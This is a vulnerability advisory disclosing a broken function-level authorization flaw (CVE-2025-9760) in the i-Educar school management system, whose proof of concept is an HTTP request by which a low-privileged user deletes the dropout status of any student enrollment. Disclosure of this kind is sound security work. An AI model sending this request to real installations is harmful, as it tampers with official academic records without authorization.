 # Broken Function Level Authorization on `matricula` API allows deletion of “abandono” status

### Summary

A **Broken Function Level Authorization (BFLA)** vulnerability was identified in the `matricula` API of the **i-Educar** application. This issue allows low-privileged users to delete the **“abandono”** (dropout) status of arbitrary student enrollments by manipulating request parameters.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/matricula`

The application fails to enforce authorization checks to ensure that only privileged users (e.g., administrators) can perform sensitive operations like deleting an abandonment status. By altering the `id` parameter, an attacker can affect records that do not belong to them.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

<img width="1380" height="528" alt="image" src="https://github.com/user-attachments/assets/02cd535d-8784-4caf-bb89-08ca04895a91" />

<img width="846" height="616" alt="image" src="https://github.com/user-attachments/assets/92bf93a9-38d6-49be-b911-0e5e06da59f9" />

2. Send the following request:

```
GET /module/Api/matricula?&oper=delete&resource=abandono&id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```



3. We could observe that the deletion was successful.

<img width="1574" height="542" alt="image" src="https://github.com/user-attachments/assets/aa537a63-20d8-4586-afad-9342380ac332" />

---

### Impact

- **Unauthorized deletion of academic records:** Any low-privileged or compromised account can remove critical status information (e.g., “abandono”) from student enrollments.
    
- **Integrity violation:** Enables tampering with academic data, which can affect official records.
      

This vulnerability directly compromises the **integrity** of the system and could have legal/regulatory implications due to unauthorized modification of academic records.


---

## References

[CVE-2025-9760](https://www.cve.org/CVERecord?id=CVE-2025-9760)

[VulnDB-322061](https://vuldb.com/?id.322061)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
